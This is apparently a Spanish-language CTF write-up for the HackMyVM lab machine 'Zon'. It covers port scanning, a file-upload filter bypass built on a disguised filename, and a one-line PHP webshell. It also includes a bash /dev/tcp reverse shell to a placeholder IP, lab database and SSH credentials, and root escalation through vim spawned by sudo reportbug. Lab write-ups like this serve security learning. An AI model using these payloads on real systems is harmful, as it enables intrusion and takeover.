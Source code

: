 ```yaml
---
layout: post
title: HackMyWM - Zon
author: c4rta
date: 2024-01-24
tags: [HackMyWM, Arbitrary File Upload]
image: /assets/img/zon/waifu.jpg
---
```


## Enumeracion

Iniciamos con un escaneo de nmap donde encontraremos el puerto 22(SSH) y 80(HTTP)

```ruby
nmap -sS -n -Pn --open -p- 192.168.1.74
```
- sS: haga un TCP SYN Scan el cual hace un escaneo sigiloso sin completar las conexiones TCP, responde con un SYN/ACK si el puerto esta abierto

 - n: para que no haga resolucion DNS y tarde menos el escaneo

 - Pn: para evitar el descubrimiento de hosts

 - open: para que solo muestre los puertos abiertos

 - -p-: para que escanee todo el rango de puertos

```ruby
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Directory Fuzzing

Al principio intente hacer fuzzing con el diccionario de **directory-list-2.3-medium.txt** pero no encontre nada, por lo que use uno de archivos, y encontre el endpoint **choose.php** haciendo uso de gobuster

```ruby
gobuster dir -u 192.168.1.74 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 50
```
```ruby
/choose.php           (Status: 200) [Size: 1908]
```

## Explotacion (Arbitrary File Upload)

Viendo el funcionamiento de **choose.php**, vemos que podemos subir archivos .zip con archivos .jpeg dentro, y una vez subidos, se encuentran en el recurso **/uploads**. Si intentamos subir un archivo que no es jpeg, nos muestra algo como esto

    File prueba.zip has been uploaded.Archive contains non-JPEG files. It will be deleted.

En este punto podriamos probar tratar de hacer bypass de algunos filtros o hacer zip symlik pero no sera necesario, despues de una busqueda, encontre una forma de hacer **command injection** a travez del nombre del archivo que se sube a un sitio web, como se explica en este blog: [https://0xn3va.gitbook.io/cheat-sheets/web-application/file-upload-vulnerabilities#abuse-filename](https://0xn3va.gitbook.io/cheat-sheets/web-application/file-upload-vulnerabilities#abuse-filename)

Vemos que nos dice podemos ejecutar comandos si subimos un archivo con este nombre **a$(whoami)z.jpeg**, que viendo su funcionamiento, se trendria que hacer la expansion de comandos y mostrar el resultado de **whoami**, intente eso pero subiendo una webshell y no me funciono, entonces se me ocurrio que podria ser el nombre del archivo, asi que tenia que ponerlo de forma literal usando comillas simples para que no me escapara los caracteres especiales como el espacio, ademas de poner la extension **.jpeg**  para que lo aceptara. Asi que los pasos fueron:

1. Crear un archivo php que sea una webshell, yo use: **<?php system($_GET['cmd']); ?>**

2. Renombar el archivo:  
    ```ruby
    cp shell.php 'hola.jpeg .php'
    ```
    Se tiene que poner el espacio y entre comillas para que se interprete de forma literal, como se ve en la imagen en el archivo de arriba, y cuando se procese se elimine el espacio en blanco

    ![](/assets/img/zon/1.png)

3. Y por ultimo se comprime: **zip ola.zip 'hola.jpeg .php'**

Una vez que se suba, veremos nuestro archivo php, y habemos podido conseguir RCE

![](/assets/img/zon/3.png)

![](/assets/img/zon/2.png)

Ahora nos podemos enviar una reverse shell usando bash:

```bash
bash -i >& /dev/tcp/<ip>/443 0>&1 <-- Usar URL encode
```

#### ¿Por que funciona?

Si vemos el archivo **upload.php** encargado de la subida del archivo,  vemos la parte en la que hace el filtrado:

```php
$command = "unzip -l " . escapeshellarg($target_file) . " | awk '{print $4}' | grep -v \"\\.jpeg$\" | grep . | tail -n1 | grep \"\\.\"";
        exec($command, $output, $return_var);
```

- Se usa **escapeshellarg** para escapar los caracteres especiales del nombre del archivo
- Despues se usa **awk '{print $4}'** para imprimir la cuarta columna, la cual es el nombre del archivo
- Despues usando grep para filtrar y excluir los que tienen ".jpeg"
- Despues usando otro grep filtra por los archivos que contengan almenos un **.**
- Y para finalizar usa otro grep para filtrar los archivos que tienen un solo punto seguido, es decir, **.** y no **..**, por lo que si el archivo tiene esto **archivo.jpeg ..php**, no lo aceptaria, por tener dos puntos seguidos antes del php

Basicamente funciona por que solo se esta filtrando que contenga la cadena **.jpeg** mas no por toda la extension del archivo, asi que solo es necesario agregar el espacio (que luego sera eliminado) y el **.jpeg** para hacer bypass de ese filtro, seguido de la extension **.php**, quedando el archivo despues de procesar como: **archivo.jpeg.php**

## www-data -> freddie

Si realizamos una busqueda para mostrar los archivos asociados a un grupo, encontraremos uno que se llama **hashdb.sh**

```ruby
find / -type f -group www-data 2> /dev/null
```
```ruby
/var/www/html/hashDB.sh
```

Al ver si contenido, nos podemos dar cuenta que se conecta a mysql y se filtran las credenciales: **admin:-pudgrJbFc6Av#U3**

```bash
#!/bin/bash

# script that checks the database's integrity every minute

dump=/dev/shm/dump.sql
log=/var/log/db_integrity_check.log
true > "${log}"

/usr/bin/mysqldump -u admin -pudgrJbFc6Av#U3 admin credentials > "${dump}" <-- Credenciales
/usr/bin/sed -i '$d' "${dump}"

hash="29d8e6b76aab0254f7fe439a6a5d2fba64270dde087e6dfab57fa57f6749858a"
check_hash=$(sha256sum "${dump}" | awk '{print $1}')

if [[ "${hash}" != "${check_hash}" ]] ; then
  /usr/bin/wall "Alert ! Database hacked !"
  /usr/bin/du -sh /var/lib/mysql >> "${log}"
  /usr/bin/vmstat 1 3 >> "${log}"
else
  /usr/bin/sync && /usr/bin/echo 3 > /proc/sys/vm/drop_caches
  /usr/bin/echo "$(date) : Integrity check completed for ${dump}" >> "${log}"
fi
```

Si nos conectamos, y mostramos las bases de datos, en la base de datos  **admin** encontramos la tabla **credentials** y las credenciales del usuario **freddie** que usaremos en ssh

![](/assets/img/zon/4.png)

usr: freddie

pass: LDVK@dYiEa2I1lnjrEeoMif

## Escalada de privilegios

Al mostrar los permisos a nivel de sudoers podremos ver el archivo **/usr/bin/reportbug** que es un script de python

```ruby
file /usr/bin/reportbug
/usr/bin/reportbug: Python script, ASCII text executable
```
La verdad ni lo vi completo, pero jugue con las funciones, y parece ser un script que enviar reportes de bugs en paquetes de debian, pero, la cuestion es que en un punto nos dice que editor queremos usar y nos da las opciones de **vim** y **nano**, si hacemos una busqueda en GFTOBins, nos dice que podemos spawnear una shell usando ese editor: [https://gtfobins.github.io/gtfobins/vim/](https://gtfobins.github.io/gtfobins/vim/)

Asi que los pasos a seguir son

1. Ejecutar el script y seleccionar la opcion 4 (expert) y rellenar los datos
2. Volvelo a ejecutar y cuando nos diga *Please enter the name of the package in which you have found a problem*, ingresamos "other"
3. Ponemos el numero **12**
4. Si sale el prompt: *Is the bug you found listed above* , le damos **s**
5. Si sale *Please select a severity level:*, le damos **4**
6. Si sale: *Please select tags: (one at a time)*, le damos enter
7. Despues nos deberia de pedir el editor, seleccionamos **vim** e ingresamos estos comandos de vim

```ruby
set shell=/bin/bash
```

Y despues mandamos a llamar a la variable escribiendo **shell** y ya seremos root

![](/assets/img/zon/5.png)

(Espero que me haya explicado bien en esta parte)

Eso ha sido todo, gracias por leer ❤



